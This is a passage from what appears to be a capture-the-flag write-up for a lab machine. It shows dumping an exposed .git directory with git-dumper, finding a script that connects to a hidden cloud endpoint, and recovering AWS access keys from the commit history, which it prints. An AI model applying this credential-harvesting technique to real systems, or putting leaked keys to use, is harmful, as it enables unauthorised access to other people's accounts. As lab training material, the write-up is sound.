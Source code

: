 <figure><img src="../../../.gitbook/assets/image (1668).png" alt=""><figcaption></figcaption></figure>

This was a Werkzeug application, which indicates it might be running Flask. The login function presented nothing of interest.

### Gitdumper

I used `git-dumper` to download all the files from this repository.

{% embed url="https://github.com/arthaud/git-dumper" %}

```bash
git_dumper.py http://10.129.86.151/.git .
```

This downloaded 2 files, a `server.py` and a `track_api_CR_148.py`. It was in the track script that I found this:

```python
session = Session(
    aws_access_key_id='<aws_access_key_id>',
    aws_secret_access_key='<aws_secret_access_key>',
    region_name='us-east-1',
    endpoint_url='http://cloud.epsilon.htb')
aws_lambda = session.client('lambda')
```

So there's a hidden host present there. To dig deeper, we can read the logs of this repository to hopefully find the secret keys that have been removed. Reading the logs helped me find these tokens:

```
aws_access_key_id='AQLA5M37BDN6FJP76TDC'
aws_secret_access_key='OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A'
region_name='us-east-1'
```
